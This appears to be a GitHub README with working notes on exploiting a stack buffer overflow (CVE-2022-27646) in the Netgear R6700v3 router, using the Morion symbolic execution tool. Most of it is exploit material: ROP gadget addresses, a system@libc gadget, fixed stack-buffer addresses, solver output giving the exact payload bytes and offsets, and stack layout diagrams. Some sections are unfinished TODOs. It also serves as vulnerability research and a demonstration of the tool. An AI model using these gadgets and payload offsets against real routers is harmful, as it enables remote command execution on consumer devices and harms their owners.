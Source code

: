 # Exploiting a Stack Buffer Overflow (CVE-2022-27646) on the Netgear R6700v3 with the Help of Symbolic Execution
## Morion Usage
----------------------------------------------------------------------------------------------------
### Tracing
- R6700v3:
    ```
    ./circled.sh
    ```
- Morion:
    ```
    cp circled.init.yaml circled.yaml; gdb-multiarch -q -x circled.gdb
    ```
### Symbolic Execution
- Morion:
    ```
    morion_control_hijacker circled.yaml
    ```
## Exploitation Strategy
----------------------------------------------------------------------------------------------------
- Symbolic execution shows that we have full control over registers `pc` and `r4-r11`.
- Find a code snippet (gadget) that calls the `system@libc` function and allows
  us to set the `r0` register (address of system command to execute).
  ```
  rop --grep "94a0"
  [...CUT...]
  0x0000c9ac : add r0, r4, r0 ; add r1, r4, r1 ; bl #0x9878 ; mov r0, r6 ; bl #0x94a0 ; mov r0, r6 ; bl #0x9854 ; mov r0, r7 ; add sp, sp, #0x10 ; pop {r4, r5, r6, r7, r8, sb, sl, pc}
  [...CUT...]
  ```
  - Candiate: `mov r0, r6; bl #0x94a0;` at address `0xc9b8`
  - Note: The above candidate code snippet is simple to achieve code execution, however
  does not smootly return and will therefore crash the targeted process.
- Generate exploit:
  - Make register `pc` become `0xc9b8` (address of `system@libc` gadget)
  - Make register `r6` become `0xbeffc114+34` (address within targeted stack buffer - constant since no ASLR)
    - Start address of targeted stack buffer: `0xbeffc114`
    - First 34 bytes (an MD5 sum plus `b"\n\x00"`) of targeted stack buffer are not symbolic (i.e. we do not control)
  ```
  from pprint import pprint
  ast = ctx.getAstContext()
  pc = ctx.getRegisterAst(ctx.registers.pc)
  r6 = ctx.getRegisterAst(ctx.registers.r6)
  pprint(ctx.getModel(ast.land([pc == 0xc9b8, r6 == 0xbeffc114+34])))
  {
    368: 0xbeffc284 (MODEL:fgets@libc:s+368):8 = 0x36,
    369: 0xbeffc285 (MODEL:fgets@libc:s+369):8 = 0xc1,
    370: 0xbeffc286 (MODEL:fgets@libc:s+370):8 = 0xff,
    371: 0xbeffc287 (MODEL:fgets@libc:s+371):8 = 0xbe,
    392: 0xbeffc29c (MODEL:fgets@libc:s+392):8 = 0xb8,
    393: 0xbeffc29d (MODEL:fgets@libc:s+393):8 = 0xc9,
    394: 0xbeffc29e (MODEL:fgets@libc:s+394):8 = 0x0,
    395: 0xbeffc29f (MODEL:fgets@libc:s+395):8 = 0x0
  }
  ```
  TODO:
  ```
  pprint(ctx.getModel(r4 == 0xbeffc114+34))
  {
      360: 0xbeffc27c (MODEL:fgets@libc:s+360):8 = 0x36,
      361: 0xbeffc27d (MODEL:fgets@libc:s+361):8 = 0xc1,
      362: 0xbeffc27e (MODEL:fgets@libc:s+362):8 = 0xff,
      363: 0xbeffc27f (MODEL:fgets@libc:s+363):8 = 0xbe
  }
  ```
- Put command string at adddress `0xbeffc114+34`
### Return Oriented Programming (ROP) Chains


## Benefits of Using Symbolic Execution
----------------------------------------------------------------------------------------------------
### Pros
- We learn about the vulnerability capabilities
  - What registers and memory areas we control and how
### Cons
- Semantic function modelling is hard, but required (here e.g. for `sscanf`)

## To Do
----------------------------------------------------------------------------------------------------
- ROP chain that does not crash
    0xb6e010c8 : mov r4, r3 ; mov r0, r4 ; pop {r4, pc}
    ...

- 0x00009988 : pop {r3, pc}
- 0x00009984 : blx r3 ; pop {r3, pc}
- 0x0000c668 : mov r0, r4 ; pop {r4, r5, r6, pc}


```
from pprint import pprint
ast = ctx.getAstContext()
pc = ctx.getRegisterAst(ctx.registers.pc)
r4 = ctx.getRegisterAst(ctx.registers.r4)
pprint(ctx.getModel(ast.land([pc == 0xc668, r4 == 0xbeffc136])))
{
    360: 0xbeffc27c (MODEL:fgets@libc:s+360):8 = 0x36,
    361: 0xbeffc27d (MODEL:fgets@libc:s+361):8 = 0xc1,
    362: 0xbeffc27e (MODEL:fgets@libc:s+362):8 = 0xff,
    363: 0xbeffc27f (MODEL:fgets@libc:s+363):8 = 0xbe,
    392: 0xbeffc29c (MODEL:fgets@libc:s+392):8 = 0x68,
    393: 0xbeffc29d (MODEL:fgets@libc:s+393):8 = 0xc6
}
```

----------------------------------------------------------------------------------------------------
fgets:
+- beff c114: 41    33
|  ...
|  beff c133: 41    66
|  beff c134: 41    0a
|  beff c135: 41    00
|  beff c136: 20    20
|  beff c137: 42    42
|  beff c138:
|  beff c139:
|  beff c13a:
|  beff c13b:
|  ...
|  beff c2be: 42    42
|  beff c2bf: 64    64
|  beff c2c0: 17    17
|  beff c2c1: 01    01
|  beff c3c2: 00    00
|  ...
+- beff c513: 00    00

sscanf:
+- beff c614: 42
|  ...
+- beff c713: 42
+- beff c714: 42
|  ...
|  beff c735: 42
|  beff c736: 42
|  beff c737: 42
|  ...
|  beff c79b: 42
|  beff c79c: 64
|  beff c79d: 17
|  beff c79e: 01
|  beff c79f: 00
|  beff c7a0: ??
|  ...
+- beff c814: ??

----------------------------------------------------------------------------------------------------
0x00cf24: pop {r4, r5, r6, r7, r8, r9, r10, r11, pc}
0x011764: ldmib r5! {r0, r2, r5, r, r8, r9, fp, ip, lr, pc}

            +------------------+
beff c87c:  | (r4)             | <-- fp
            +------------------+
            | (r5)             |
            +------------------+
            | (r6)             |
            +------------------+
            | (r7)             |
            +------------------+
            | (r8)             |
            +------------------+
            | (r9)             |
            +------------------+
            | (r10)            |
            +------------------+
            | (r11)            |
            +------------------+
            | (pc)  0001 1764  |
            +------------------+
            |                  | <-- sp
            +------------------+

- [ ] Triton support for instruction `ldmdb r11, {r4, r5, r6, r7, r8, r9, r10, r11, sp, pc}`
  - [X] Update Triton installation
  - [X] Create a sample program with the unsupported instruction
  - [X] Open a Triton Git issue;
- [ ] Document exploit
  - [X] Draw memory layout
  - [X] Draw ROP chain
  - [X] Reimplement and test constraints based on figure
  - [X] Push figures to Git repository
- [X] Write ROP chain (with preconditions) as YAML file